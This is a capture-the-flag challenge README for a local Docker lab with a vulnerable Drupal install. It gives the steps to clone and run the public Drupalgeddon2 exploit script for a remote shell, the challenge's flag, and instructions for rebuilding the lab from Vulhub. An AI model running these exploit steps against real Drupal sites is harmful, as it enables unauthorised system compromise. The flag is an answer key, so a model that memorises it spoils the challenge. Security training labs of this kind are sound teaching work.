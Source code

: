 # Challenge 4: Armageddon

## How to Run
```bash
docker compose pull
docker compose up -d
```

---

## Description
This challenge demonstrates a **Drupalgeddon** attack, which gives the attacker **system-level access** via a remote shell.

---

## Solution
There are multiple ways to exploit this vulnerability, but the recommended approach is to use an **automated exploit script**.

### Steps:
1. Install Ruby.
2. Clone the Drupalgeddon2 exploit repository:
   ```bash
   git clone https://github.com/dreadlocked/Drupalgeddon2.git
   ```
3. Run the exploit against the vulnerable Drupal instance:
   ```bash
   ruby drupalgeddon2.rb http://localhost:8123
   ```
4. Successful exploitation will provide remote shell access.

**Flag:**
```
flag{drupal-rce-works}
```

---

## How to Recreate
1. Clone the Vulhub repository:
   ```bash
   git clone https://github.com/vulhub/vulhub
   ```
2. Navigate to the **Drupalgeddon** folder inside the repository.
3. Build and start the vulnerable container:
   ```bash
   docker compose up -d --build
   ```
4. Once the container is running, hide your flag in any directory of your choice within the system.

---

## Final Notes
This challenge highlights the critical security risk of unpatched CMS installations and demonstrates how **Remote Code Execution (RCE)** vulnerabilities can lead to full system compromise.
